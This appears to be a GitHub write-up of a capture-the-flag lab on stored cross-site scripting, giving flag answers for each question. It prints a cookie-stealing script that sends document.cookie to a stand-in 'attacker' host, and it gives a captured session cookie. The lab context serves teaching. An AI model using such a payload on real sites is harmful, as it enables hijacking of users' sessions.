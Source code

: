 # Stored XSS

**To see which HTML/JavaScript payloads are being used to do the task please refer [this folder](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/03%20-%20Stored%20XSS/Sample%20Payloads).** <br>
- Stored cross-site scripting is the most dangerous type of XSS. This is where a malicious string originates from the website's database. This often happens when a website allows user input that is ***not sanitised*** (remove the **"bad parts"** of a user's input) when inserted into the database.
   
  ![Screenshot (820)](https://user-images.githubusercontent.com/63872951/183843240-6955d1d5-1a23-42e6-8be3-67dbf8544db7.png)
 
- A attacker creates a payload in a field when signing up to a website that is stored in the websites database. 
- If the website doesn't properly sanitise that field, when the site displays that field on the page, it will execute the payload **to everyone** who visits it. 
- The payload could be as simple as `<script>alert(1)</script>`
- However, this payload won't just execute in your browser but any other browsers that display the malicious data inserted into the database.


# Answer the questions below

- The machine you deployed earlier will guide you though exploiting some cool vulnerabilities, stored XSS has to offer. There are hints for answering these questions on the machine.

1. Add a comment and see if you can insert some of your own HTML.

Doing so will reveal the answer to this question.
```
HTML_T4gs
```
2. Create an alert popup box appear on the page with your document cookies.
```
W3LL_D0N3_LVL2
```
3. Change "XSS Playground" to "I am a hacker" by adding comments and using Javascript.
```
websites_can_be_easily_defaced_with_xss
```
4. Stored XSS can be used to steal a victims cookie (data on a machine that authenticates a user to a webserver). This can be done by having a victims browser parse the following Javascript code:

   `<script>window.location='http://attacker/?cookie='+document.cookie</script>`

   This script navigates the users browser to a different URL, this new request will includes a victims cookie as a query parameter. When the attacker has acquired the cookie, they can use it to impersonate the victim. 

   Take over Jack's account by stealing his cookie, what was his cookie value?
```
s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE
```
5. Post a comment as Jack.
```
c00ki3_stealing_
```

# The Next Steps

- Click [here](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/03%20-%20Stored%20XSS/Stored%20XSS%20Approach) to see how to move further in a stored XSS attack.

# Scripts used to exploit

- Click below to see which scripts/payloads were used in finding the answers to complete this task:

   - [Question 2](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/03%20-%20Stored%20XSS/Used%20Payloads/1%20-%20Q2.html)
   - [Question 3](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/03%20-%20Stored%20XSS/Used%20Payloads/2%20-%20Q3.js)
   - [Question 4](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/03%20-%20Stored%20XSS/Used%20Payloads/3%20-%20Q4.js)
 
